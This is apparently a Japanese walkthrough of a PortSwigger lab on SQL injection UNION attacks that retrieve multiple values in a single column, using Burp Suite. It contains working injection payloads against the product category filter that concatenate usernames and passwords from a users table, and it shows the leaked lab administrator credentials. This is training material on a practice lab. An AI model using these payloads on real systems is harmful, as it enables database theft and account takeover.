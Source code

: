 # SQL インジェクション UNION 攻撃、単一列内の複数の値の取得

次のハッキングラボを実施します  
https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column  
このラボには、製品カテゴリ フィルターに SQL インジェクションの脆弱性が含まれています。

- 1. BurpSuite を起動して、Proxy タブからブラウザを立ち上げます
- 2. ハッキングラボにアクセスします
- 3. 商品検索結果をフィルタリングします
     ![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/0866b975-9be8-42ed-bddc-2fa3cbbfc0c6)
- 4. GET /filter?category=XXXXX HTTP/2 リクエストを send to repeater します
- 5. 列の型を探ります。以下のリクエストは正常に処理されます。2 番目の列でテキストが取得できます。  
     GET /filter?category=Lifestyle'+UNION+SELECT+NULL,'abc'-- HTTP/2
- 6. リクエストを次のように書き換えて、1 列で id と pass を取得します。

GET /filter?category=Lifestyle'+UNION+SELECT+NULL,username||'+'||password+FROM+users--  
レスポンス

```html
<th>administrator 3aqe2pew8w9q5kh2jtdu</th>
```

- 7. id とパスワードを使用して、管理者アカウントでログインします
